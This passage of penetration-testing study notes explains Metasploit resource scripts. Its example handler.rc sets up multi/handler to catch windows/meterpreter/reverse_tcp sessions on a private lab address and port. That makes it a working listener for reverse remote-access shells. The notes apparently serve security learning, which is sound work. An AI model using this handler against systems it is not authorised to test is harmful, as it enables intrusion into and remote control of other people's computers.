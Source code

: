 Repetitive tasks and commands can be automated using **MSF resource scripts** (same as batch scripts).

- Almost every MSF command can be automated.

```bash
ls -al /usr/share/metasploit-framework/scripts/resource
```

![/usr/share/metasploit-framework/scripts/resource](.gitbook/assets/image-20230415222643575.png)

**`e.g. 1`**

- *Automate the process of setting up a handler for the generated payloads*, by creating a new `handler.rc` file

```bash
nano handler.rc

# Insert the following lines
# by specifying the commands sequentially

use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 1234
run

# Save it and exit
```
